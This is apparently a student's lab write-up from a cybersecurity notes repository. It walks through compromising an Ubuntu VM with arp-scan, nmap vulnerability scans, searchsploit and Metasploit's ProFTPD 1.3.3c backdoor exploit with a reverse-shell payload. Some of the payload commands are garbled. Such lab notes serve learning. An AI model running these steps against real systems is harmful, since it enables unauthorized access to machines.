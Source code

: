 
# Compromising Ubuntu Machine

This repository documents the steps taken to compromise an Ubuntu machine using various tools and techniques.

## ARP Scan

First, we used `arp-scan` to identify live hosts in the network.

The command used was:
```
sudo arp-scan -l -I eth0
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-13/arp-scan.png?raw=true)
## Nmap Scan

Next, we used `nmap` to perform a detailed scan of the identified host.

### Basic Scan

We performed an OS detection scan to identify open ports and the operating system.

The command used was:
```
sudo nmap -O 10.0.2.5
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-13/nmap-scan.png?raw=true)
### Vulnerability Scan

We also performed a vulnerability scan using `nmap` scripts.

The command used was:
```
sudo nmap -Pn -sV --script vuln -oN vuln-Ubuntu-nmap.txt 10.0.2.5
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-13/nmap-script.png?raw=true)
## Searchsploit

Finally, we used `searchsploit` to find detailed information and exploit code for the identified vulnerability.

The command used was:
```
searchsploit ProFTPD 1.3.3c
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-13/search%20exploit.png?raw=true)
## Metasploit

After identifying potential vulnerabilities, we used Metasploit to exploit them.

### Metasploit Console

We searched for a specific ProFTPd vulnerability and selected the appropriate exploit.

The commands used were:
```
msfconsole
search ProFTPD 1.3.3c
use exploit/unix/ftp/proftpd_133c_backdoor
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-13/msfconsole.png?raw=true)
In this you have to select the payloads for this specific attack 
```
 show payloads
 use payload/reverse_perl.php
 set payloads payload/reverse_perl.php (copy the path of the perl)
 set RHOST
 set LHOST
```

## Exploit 
```
 exploit
```
you will get a non interactive shell you can make it work with the tty spawn shell which you will get on the hack-tool extension 

After this is your wish what to do with the files machine its not like the windows machine so you will have to work it out as the linux/ ubantu machine working throught the terminal. 
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-13/cracked.png?raw=true)

## Summary

By following these steps, we were able to successfully identify and exploit vulnerabilities in an Ubuntu machine running ProFTPd.

---
